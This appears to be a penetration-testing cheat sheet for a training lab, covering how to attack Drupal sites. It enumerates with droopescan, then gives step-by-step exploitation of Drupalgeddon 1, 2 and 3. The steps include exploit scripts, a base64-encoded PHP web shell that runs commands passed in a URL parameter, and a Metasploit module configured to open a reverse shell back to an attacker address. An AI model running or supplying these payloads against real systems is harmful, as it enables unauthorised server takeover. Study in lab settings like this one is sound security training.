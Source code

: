 - `droopescan scan drupal -u http://example.org/ -t 32`
- `find version > /CHANGELOG.txt`

### Enumeration
```bash
# Enumeration
sudo pip3 install droopescan
droopescan scan drupal -u http://drupal.inlanefreight.local
```
## After login admin panel 
- RCE via PHP Filter Module (Drupal 7)
-  Installing PHP Filter in Drupal 8+

`you can get the shell using above methords search for any article for it
`
##  Drupalgeddon 1 – CVE-2014-3704 
https://www.exploit-db.com/exploits/34992
- Affects: Drupal 7.0 – 7.31
- Type: Pre-auth SQL Injection
- Goal: If successfull it will create an admin user
```bash
python2 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

## Drupalgeddon 2 – CVE-2018-7600
https://www.exploit-db.com/exploits/44448
- Affects: Drupal < 7.58 and 8.5.1
- Type: Unauthenticated RCE via user registration
#### Steps:
- Run the PoC script:
```bash
python3 drupalgeddon2.py
```
- Confirm with:
```bash
curl http://drupal-dev.inlanefreight.local/hello.txt
```
- Upload malicious PHP file:
```bash
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
```
- Decode & save:
```bash
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```
- Run the modified PoC to upload shell

```bash
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## Drupalgeddon 3 – CVE-2018-7602
- Affects: Drupal 7.x and 8.x
- Type: Authenticated RCE
- Requires: Valid session cookie & node delete permission
#### Steps:
- Log in and get session cookie (SESSxxx=xxx).
Use Metasploit:
```bash
use exploit/multi/http/drupal_drupageddon3
set RHOSTS 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set DRUPAL_SESSION SESSxxx=xyz
set DRUPAL_NODE 1
set LHOST 10.10.14.15
exploit
```
Shell success:
```bash
meterpreter > getuid
www-data
```
